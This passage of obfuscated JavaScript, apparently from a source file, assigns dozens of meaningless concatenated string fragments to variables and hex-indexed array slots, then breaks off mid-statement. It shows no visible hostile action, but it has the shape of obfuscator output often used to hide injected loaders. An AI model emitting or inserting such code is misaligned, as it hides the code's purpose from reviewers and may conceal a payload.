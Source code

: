 a0f4='qy'+'4['+'86'+'O*'+'+S'+'lH',a0f5='9['+'r0'+'co'+'WY'+'z',a0f6='jy'+']@'+'uC'+'59'+'B',a0f7='fR'+'s='+'WT'+'S&';a0bg['Ey'+'tj'+'fO'+'Nv']='7o'+'fu'+'qq'+'mI'+'Ka'+'LJ'+'ai'+'Hy'+'6b',_qxbv99Aplw='.C'+'lZ'+'O['+'E['+'D5'+'n2',_zZqqH=']Q'+'3n'+'an'+'lf'+'tD'+'80';var a0f8='SS'+'Of'+'m*'+'xN';a0bg['wg'+'Pq'+'r']='QA'+'Ne'+'Io'+'tC'+'I5'+'c4'+'EN'+'b',_S3wRciAkNi='mv'+'xp'+'X0',_GpkSN1uukf='2M'+'Ae'+'M2'+'Tf'+'gN'+'A',a0bk[-0x1aa7+-0x1fca+-0x3af7*-0x1]='BB'+'e3'+'uQ'+'T2';var a0f9='Jh'+'lw'+'/e'+'!7'+'H',a0fa=']T'+'BN'+'1n'+'jg'+'O?';a0bg['LQ'+'jw'+'nI'+'wN']='bh'+'AE'+'86'+'ec'+'bd'+'c5'+'e1'+'VE'+'m9',_J9xtD='Ay'+'%x'+'O5'+'S*'+'sM'+'Hh',_hEPOcHlGNH='!P'+'(.'+'CA'+'sM'+'Z',_P9bQne5l='Hl'+'_7'+'QN'+'wo',a0bg['nM'+'zG'+'Ns']='1c'+'27'+'d8',_a628QQxC='@o'+'3)'+'UH'+'je'+'*6'+'Cz'+'#';var a0fb='7d'+'!A'+'+!'+'e?';_sry2VcNzSp='&S'+'#w'+'1='+'%]'+'zh';var a0fc='e2'+'Iu'+'Xb'+'5C'+'w4';_i6smTZXZ='I)'+'wn'+'g%'+'pr'+'ws'+'kh',a0bk[-0x1786+-0x1859+-0x6dd*-0x7]='yX'+'5M'+'nu',_Fi5WVeZfG='3K'+'dQ'+'.9'+'Vf'+'1p'+'Zy'+'@M';var a0fd='kO'+']f'+'Sl'+'@*'+'Jc'+'=g'+'V';_IEIT3iW='1D'+'d2'+'l0'+'H4'+'eX'+'LJ'+'cZ'+'x';var a0fe='mU'+'FR'+'!v'+'G0'+'!R'+'+W'+'@[';a0bg['NK'+'eY'+'yD'+'sF'+'j']='oA'+'iq'+'Ls'+'mC'+'mI'+'Ka'+'XE'+'L';var a0ff='sn'+'pa'+'TQ'+'ng'+'40'+'7m'+'Q';_EXNZA='J3'+'1D'+'%Y'+'.#'+'r7'+'7@'+'e',_aNdkUv7IJ='s]'+'Aa'+'Rc'+'k&'+'!',_Y1iBA0hd='H-'+'^v'+'N*'+'AU'+'gg'+'6P',_WNq7X='rt'+'5u'+'PK'+'A.'+'j2'+'AT',a0bk[-0xdca+0x1*0xd08+0x1*0xef]='zr'+'pc'+'2p'+'K',_oTyNhOaoU1=']I'+'55'+'eS'+'s7'+'82'+'58'+'l*'+'Gu';var a0fg='HU'+'lM'+'^j'+'x2'+'%/'+'J',a0fh='P?'+'%B'+')x'+'))'+'4!'+'nh'+'1d'+'V',a0fi='vN'+'FG'+'bz'+'(X';a0bg['Nr'+'AN'+'SE'+'vn'+'X']='Ub'+'8u'+'mM'+'SL'+'qv'+'9c'+'4x'+'P',_MduQ5yKKzC='[O'+'A]'+'Jk'+'0I'+'[n'+'xD'+'_';var a0fj='^v'+'&9'+'mT'+'(S'+'2C'+'-/'+']j';_B5aaH='v.'+'a)'+'0)'+'8z'+'Ah'+'FI'+'D',_632M1vURP='Ua'+'fL'+'pN'+'/Y'+'52'+'Ea',a0bg['wG'+'eB'+'bj']='qL'+'qv'+'q';var a0fk='aK'+'cw'+'i%'+'D6'+'1X'+'qE'+'7^'+'&';_7vWyET='hi'+'nq'+'CB'+'y';var a0fl='O0'+'uE'+'kE'+'wI'+'e?'+'*('+'Vs'+'V]';a0bk[-0x1068+-0xe*0x167+0x2448]='2u'+'2u'+'bg'+'qZ'+'I',_NH49Tz='UP'+'.k'+'9i'+'j0'+'2K';var a0fm='mD'+'!['+'&.'+']w'+'f_'+'gU'+'L',a0fn='!S'+'f!'+'18'+'3*'+'^('+'v)',a0fo='#p'+'_k'+'g)'+'&.'+')8'+'J2'+'./';_Lf7BrBPzOd=')V'+'Bm'+')H'+'Dt'+'Y#';var a0fp='y^'+'Eg'+'LE'+'FL';a0bk[0x6ab+0x665*-0x2+0x1*0x62b]='3L'+'c3'+'d';var a0fq='yk'+']Q'+'b7'+'@d'+'j('+'&Q'+'m';_SziGJE5x='3['+'V3'+'8u'+'c3'+'Si'+'/_'+'Vo'+'%_',_WuA0PJ7x='Tj'+'(='+'=&'+'(y'+'yl',a0bg['FM'+'EP'+'u']='qq'+'mD'+'Cm'+'SL'+'qv';var a0fr=')5'+'E7'+'h/'+'7G',a0fs='HY'+'_6'+'j8'+'dS',a0ft='nS'+'6/'+'DT'+'rF'+'bW'+'XE'+'@q'+'E',a0fu='fu'+'Zc'+'XM'+'js'+'^p';a0bg['YO'+'lC'+'tx'+'X']='0F'+'It'+'Xv'+'qL'+'We'+'Vl'+'36'+'Kf'+'6M',_YEVPsf='^E'+'z4'+'5s'+'mZ'+'6t'+'+',_sVkEbKWgA='0Y'+'*O'+'go'+'n1'+'F)'+'&x'+'.-',_2L7wrK07='tp'+'+6'+'U['+'#]'+'q!'+'KK'+'2';var a0fv='R?'+'hi'+'9*'+'U/'+'_l'+'wE'+'5';_hQhKfAxlTF='BR'+'tN'+'**'+'dI'+'&1'+'j('+'AB'+'P',a0bg['tt'+'Wn'+'sP']='1q'+'Lq'+'iV'+'f1'+'h4'+'bG',_8gUX5AUcW='7J'+'8#'+'H?'+'Yi'+'ZY'+'fv'+'l',_nsvErcKG='os'+'T2'+'FY'+'/G'+'Y7'+'P',_aQfNA='Rm'+'f/'+'#q'+'Gx'+'r?'+'KI',a0bk[-0x1*-0x1821+-0x1e0c+0x667]='EA'+'xH'+'6d'+'a',_1JzM3p='I['+'%a'+'pI'+'Eb'+'DR'+'lR',_g66vt2QKY='p*'+'j('+'E8'+'(4'+'Q+'+'Jo'+'m8'+'4',a0bk[0x7fd+0x3b8+0x3*-0x3e5]='vS'+'bp'+'V4'+'hS'+'V',_3aoDKEE='pW'+'5#'+'SJ'+'e?'+'W?'+'(';var a0fw='Zg'+'IE'+'!a'+'Y)';_thH7JGlFL='xd'+'rm'+'Br'+'AH'+'YO'+'Cn'+'U!'+'*#',_GTxbQWw='hR'+'Tq'+'di'+')K';var a0fx='QM'+'k4';_YLM8Zn5pmP='CC'+'f_'+'l^'+'mb'+'p9'+'Xk',_vu73kIXtL='ON'+'&4'+'.F'+'4-'+'af'+'GN'+'Ie',_FtebjPT='hU'+'.s'+'FD'+'Av'+'Sy',a0bk[0x1155+-0xd*0x28+-0xf45]='tn'+'Km'+'ak'+'XS'+'xM';var a0fy='o@'+'I.'+'fU'+'Iy'+'Dv'+']',a0fz='Mz'+'8k'+'7*'+'^';_fs7uWcy='m%'+'n)'+'ok'+'DE'+'M['+'&D'+'zN';var a0fA='ep'+'pz'+'nO'+'CD'+'U@'+'Q';_PEZ2By='/*'+'3h'+'_m'+'8W'+'b',a0bg['nZ'+'Bz'+'jK'+'bk'+'Jf']='xy'+'Zo'+'Vo'+'qL'+'AS'+'5';var a0fB='Tb'+'=t'+'k#'+'Ti'+'9]'+'sJ'+'/';_0z9f2j='tj'+'kY'+'_9'+'*S'+'EH',_qwuScc='C)'+'wo'+'zJ'+'5]'+'[';var a0fC='!n'+'px'+'Mm'+'NI'+'Y*'+'j';a0bk[0x15b2+0x33e+-0x188c*0x1]='j5'+'7f'+'qu'+'I2'+'u3';var a0fD='bx'+'WA'+'=o'+'iQ'+'F';_UKNPvp6=']J'+'4e'+'N('+'.u'+'I6';var a0fE='u*'+'*@'+')z'+'Dr'+'Ru'+'(Q'+'3h'+'t^';_H52nzgq='za'+'*E'+'qh'+'yI'+'E',a0bk[-0x1f01+-0x1e38*0x1+0x1*0x3dab]='8F'+'QP'+'DM',_aA4v2ynFS='Kk'+'!4'+'2-'+'5j'+'1n'+')O';var a0fF='D='+'S1'+'jU'+'pm'+'aE';_Ayi0iFL='X&'+'CC'+'Xa'+'3*'+'/q'+'pT'+'J';var a0fG='NK'+'y8'+'ec'+'o/'+'x*';_uJOeO0='4y'+'6Y'+'oy'+'X/'+'xX'+'Y',a0bg['Em'+'Gp'+'x']='yZ'+'oV'+'oq'+'LQ'+'P4'+'PR'+'Du';var a0fH=']2'+'?j'+'T*'+'FB',a0fI='pJ'+'0U'+'nx'+'GE'+'e!'+'iG'+'#6',a0fJ='6x'+'Fd'+'/V'+'sk'+'fC'+'2e'+'iH'+'/Z';_HBlYZrNIH='Uv'+'*U'+'dX'+'18',a0bg['wF'+'lc'+'wv'+'cD'+'jX']='YK'+'Pd'+'1c'+'27'+'d8'+'GC'+'1L',_bWmKI='ya'+'!*'+'%.'+'sb'+'rZ';var a0fK='j='+'eK'+'y)'+'f#'+'&',a0fL=']a'+'^i'+'ub'+'kb'+'-G'+'ta'+'/';a0bk[-0x13bf+-0x572+0x2*0xcc5]='3J'+'zI'+'dn'+'N1'+'1b',_2PDY1EC3='1H'+'=&'+'AO'+'B!'+'Rn'+'l&'+'4J'+'?-',_0fVslT='@A'+'%h'+'wU'+'of'+'=Z'+'AD'+'*W'+'1F',_q7dKTKzJjf='#n'+'%e'+'sP'+'9w'+'rf'+'Cu'+'N',a0bg['wU'+'ua'+'d']='K9'+'Kq'+'qm'+'DC'+'mS'+'Lq'+'vx'+'xI'+'lp'+'Q';var a0fM='9]'+'wi'+'MG'+'nR'+'*k'+'9*'+'sp'+']';_FDCDd='Qm'+'H*'+'q8'+'E#'+'-*'+'xi',_jq9SK3g='qS'+')C'+'=/'+'?^'+'uS'+'o',_ntOreVNQXN='rO'+'Es'+'+K'+'5P'+'7/',_fKuXt0C='&H'+'+t'+'?j'+'Rk'+']u'+'lc'+'_';var a0fN='Ap'+'jG'+'rZ'+'T8';_SOwCxdTZT='#L'+'g.'+'nH'+'V]'+'c',_KFQKHoBX='dT'+'[]'+'TP'+'bH'+'A[';var a0fO='Vo'+'tJ'+'xN'+'g)'+'An'+'dy'+'LI';_EFoG1bHDiR='lg'+'^*'+'13'+'vJ'+'H5'+'#8'+'ys'+'mY';var a0fP='/g'+'HO'+'5('+'R6';a0bg['IT'+'Er'+'PR'+'ng'+'y']='qT'+'&a'+'ut'+'h=',_Evf4NeE1jG='HF'+')0'+'UE'+'3H'+'t5'+'-_'+'0_',_Yg7gejaRt='3/'+'L8'+'sn'+'jP'+'Z3'+'0*',_Xid1S9='Zx'+'j2'+'9_'+'WJ'+'XC'+'9e'+'k';var a0fQ='Yc'+'Qv'+'S';_sSpurbU='8c'+'3O'+'kn'+'#k'+'I',_hP24j='T%'+'=)'+'uD'+'P]'+'XX'+'v+'+'F1';var a0fR='O5'+'QC'+'?.'+'rZ'+'W6'+'9M'+'d';a0bk[0x1644+-0x4*0x6fb+0x1*0x60d]='c1'+'Yg'+'s';var